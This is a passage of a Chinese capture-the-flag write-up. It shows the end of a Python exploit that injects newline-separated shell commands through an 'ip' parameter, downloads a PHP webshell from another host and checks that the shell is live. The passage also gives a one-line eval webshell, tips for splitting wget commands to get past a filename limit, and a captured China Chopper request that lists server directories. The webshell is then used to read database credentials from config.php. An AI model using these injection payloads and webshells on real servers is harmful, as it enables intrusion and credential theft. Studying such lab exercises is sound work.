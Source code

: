 12.  `proxy = {"http": "127.0.0.1:8080"}`

13.  `for req in download:`

14.  `base = "ip=1.1.1.1%0a>js\/"`

15.  `data = base + req`

16.  `requests.post(url=uri, data=data, headers=header, proxies=proxy)`

18.  `sh = "ip=1.1.1.1%0als%20js%20-t>js\/1"`

19.  `requests.post(url=uri, data=sh, headers=header, proxies=proxy)`

21.  `download = "ip=1.1.1.1%0ash%20js\/1"`

22.  `requests.post(url=uri, data=download, headers=header, proxies=proxy)`

23.  `response = requests.get("http://192.168.1.108:8084/1.php")`

24.  `if response.status_code == 200:`

25.  `print("[*] getshell!!")`

26.  `else:`

27.  `print("[*] failed!")`

29.  `if __name__ == "__main__":`

30.  `getshell()`

运行脚本会得到一个1.php的webshell，使用菜刀进行连接。通过config.php获取数据库连接口令和账户，得到flag。

**0x03 补充**

中间遇到了很多问题，也get了一些知识点：

1、Linux文件名称中不能包含/，所以在远程服务器下载木马时无法使用wget xxxx/dir的形式，只能在访问index的时候自动下载目录。当前我能想到比较笨的方法是在index页面中写入如下代码：

1.  `<?php`

3.  `echo("<?php @eval(\$_POST['as']);`

4.  `?>`

其中$需要进行转义，否则无法正常打印

2、命令分隔如下：

wget 12\

7.0.0.1:\

8083 -O\

1.php

其中遇到一个大坑，参数应该是大写字母O，即下载内容另存为此文件名。小写的o代表过程信息记录到1.php中。

另外在解题过程中抓取了菜刀的报文，做个记录

1.  `@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=base64_decode($_POST["z1"]);$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D."/".$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="\t".$T."\t".@filesize($P)."\t".$E."`

2.  `";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};echo("|<-");die();&z1=/var/www/8084/assets/i/`
